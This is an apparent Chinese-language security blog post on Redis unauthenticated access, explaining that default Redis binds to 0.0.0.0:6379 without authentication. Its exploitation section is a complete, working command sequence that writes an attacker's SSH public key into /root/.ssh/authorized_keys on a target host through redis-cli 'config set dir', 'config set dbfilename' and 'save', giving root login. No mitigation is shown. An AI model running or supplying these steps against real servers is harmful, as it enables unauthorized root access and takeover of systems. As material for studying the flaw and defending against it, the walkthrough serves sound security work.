 Redis是一个开源的使用ANSI C语言编写、支持网络、可基于内存亦可持久化的日志型、Key-Value数据库，并提供多种语言的API。

![屏幕快照-2017-07-15-下午5.32.54-1024x441.png](https://whitecell.io/upload/attach/201810/151_3W2NEJBQXQAA3TV.png "屏幕快照-2017-07-15-下午5.32.54-1024x441.png")

---

### 一、漏洞介绍

Redis 默认情况下，会绑定在 0.0.0.0:6379，这样将会将 Redis 服务暴露到公网上，如果在没有开启认证的情况下，可以导致任意用户在可以访问目标服务器的情况下未授权访问 Redis 以及读取 Redis 的数据。攻击者在未授权访问 Redis 的情况下可以利用 Redis 的相关方法，可以成功在 Redis 服务器上写入公钥，进而可以使用对应私钥直接登录目标服务器。

#### 漏洞描述

部分 Redis 绑定在 0.0.0.0:6379，并且没有开启认证（这是Redis 的默认配置），如果没有进行采用相关的策略，比如添加防火墙规则避免其他非信任来源 ip 访问等，将会导致 Redis 服务直接暴露在公网上，导致其他用户可以直接在非授权情况下直接访问Redis服务并进行相关操作。

利用 Redis 自身的提供的 config 命令，可以进行写文件操作，攻击者可以成功将自己的公钥写入目标服务器的 /root/.ssh 文件夹的authotrized_keys 文件中，进而可以直接使用对应的私钥登录目标服务器。

![屏幕快照-2017-07-15-下午5.33.41.png](https://whitecell.io/upload/attach/201810/151_ADBK9E46DRCPU6P.png "屏幕快照-2017-07-15-下午5.33.41.png")

---

### 二、漏洞利用

Kali Linux 安装 redis 服务

```txt
apt-get install redis
```

![Snipaste_2018-10-18_16-36-14.png](https://whitecell.io//upload/attach/201810/151_STRGXMDW7CA5UG5.png "Snipaste_2018-10-18_16-36-14.png")

首先在本地生成公私钥文件：

```txt
$ ssh-keygen -t rsa
```

然后将公钥写入 foo.txt 文件

```txt
$ (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > foo.txt
```

连接 Redis 写入文件

```txt
root@kali:~# cd /root/.ssh
root@kali:~/.ssh# ls
id_rsa  id_rsa.pub
root@kali:~/.ssh# (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > foo.txt
root@kali:~/.ssh# ls
foo.txt  id_rsa  id_rsa.pub
root@kali:~/.ssh# cat foo.txt | redis-cli -h 10.115.4.17 -x set crackit
OK
root@kali:~/.ssh# redis-cli -h 10.115.4.17
10.115.4.17:6379> config set dir /root/.ssh/
OK
10.115.4.17:6379> config get dir
1) "dir"
2) "/root/.ssh"
10.115.4.17:6379> config set dbfilename "authorized_keys"
OK
10.115.4.17:6379> save
OK
10.115.4.17:6379> 
```
